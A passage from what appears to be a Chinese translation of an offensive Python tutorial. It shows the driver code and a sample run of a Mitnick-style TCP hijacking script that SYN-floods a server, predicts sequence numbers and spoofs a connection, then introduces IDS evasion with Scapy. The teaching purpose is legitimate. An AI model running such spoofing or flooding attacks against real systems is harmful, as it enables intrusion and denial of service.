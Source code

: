 ```py
    parser.add_option('-t', dest='tgt', type='string', help='specify target address')
    (options, args) = parser.parse_args()
    if options.synSpoof == None or options.srcSpoof == None or options.tgt == None:
        print(parser.usage)
        exit(0)
    else:
        synSpoof = options.synSpoof
        srcSpoof = options.srcSpoof
        tgt = options.tgt
    print('[+] Starting SYN Flood to suppress remote server.')
    synFlood(synSpoof, srcSpoof)
    print('[+] Calculating correct TCP Sequence Number.')
    seqNum = calTSN(tgt) + 1
    print('[+] Spoofing Connection.')
    spoofConn(srcSpoof, tgt, seqNum)
    print('[+] Done.')

if __name__ == '__main__':
    main() 
```

运行我们最终的脚本，我们成功复制了米特尼克 20 年前的攻击。一度被认为是史上最复杂的攻击现在被我们用几十行 Python 代码重现。现在手上有了较强的分析技能，让我们用到下一节描述的方法，一个针对入侵检测系统的复杂网络攻击的分析。

```py
mitnick# python tcpHijack.py -s 10.1.1.2 -S 192.168.1.2 -t 192.168.1.106
[+] Starting SYN Flood to suppress remote server.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
<..SNIPPED..>
[+] Calculating correct TCP Sequence Number.
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] Spoofing Connection.
.
Sent 1 packets.
.
Sent 1 packets.
[+] Done. 
```

## 用 Scapy 挫败入侵检测系统

入侵检测系统(IDS)是主管分析师手中一个非常有价值的工具。一个基于网络的入侵检测系统(NIDS)可以通过记录 IP 网络数据包实时分析流量。通过匹配已知恶意标记的数据包，IDS 可以在攻击成功之前提醒网络分析师。比如说，Snort 入侵检测系统通过预先包装各种不同的规则来检测不同类型的侦查，攻击，拒绝服务等其他不同的攻击向量。审查其中一个配置的内容，我们看到四个报警检测 TFN，tfn2k 和 Trin00 分布式拒绝服务的攻击工具。当攻击者使用 TFN, tfn2k 或者 Trin00 工具攻击目标，IDS 检测到攻击然后警告分析师。然而，当分析师接受比他们能分辨事件还要多的警告时他该怎么办？他们往往不知所措，可能会错过重要的攻击细节。
